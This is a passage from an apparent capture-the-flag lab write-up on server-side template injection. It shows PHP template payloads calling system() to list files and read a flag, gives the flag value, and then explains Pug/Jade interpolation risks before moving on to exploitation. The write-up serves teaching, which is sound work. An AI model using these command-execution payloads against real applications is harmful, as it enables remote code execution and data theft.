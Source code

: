 ```php
{system("command")}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250505174540.png)

As seen, the `RCE` works, let's read the files in the server directory:

```php
{system("ls -la")}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250505174733.png)

We can now read the file:

```php
{system("cat 7c45b2d3a741398826f497d58b73a401.txt")}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250505174808.png)

Our flag is:

```
THM{0739eea78f5c7f4b1690737c6258e38b}
```

# NodeJS - Pug
---

Pug (formerly known as Jade) is a high-performance template engine widely used in the Node.js community for its concise HTML rendering and advanced features like conditionals, iterations, and template inheritance. While Pug provides powerful tools for developers, its ability to execute JavaScript code directly within templates can pose significant security risks.  

Pug's security vulnerabilities primarily stem from its capability to interpolate JavaScript code within template variables. This feature, designed for dynamic content generation, can be exploited maliciously if user inputs are embedded into the template without proper sanitisation.

Developers must diligently sanitise and validate user inputs to mitigate these risks and ensure the security of applications using Pug.  

**Key Vulnerability Points:**

- **JavaScript Interpolation**: Pug allows embedding JavaScript directly within templates using interpolation braces `#{}`. If user input is interpolated without proper sanitization, it can lead to arbitrary code execution.
- **Default Escaping**: Pug does provide automatic escaping for certain inputs, converting characters like `<`, `>`, and `&` to their HTML entity equivalents to prevent XSS attacks. However, this default behaviour does not cover all potential security issues, particularly when dealing with unescaped interpolation `!{}` or complex input scenarios.

### Exploitation

Before crafting a payload, it is important to confirm if the application indeed uses Pug. For example, go to [http://ssti.thm:8001/jade/](http://ssti.thm:8001/jade/).
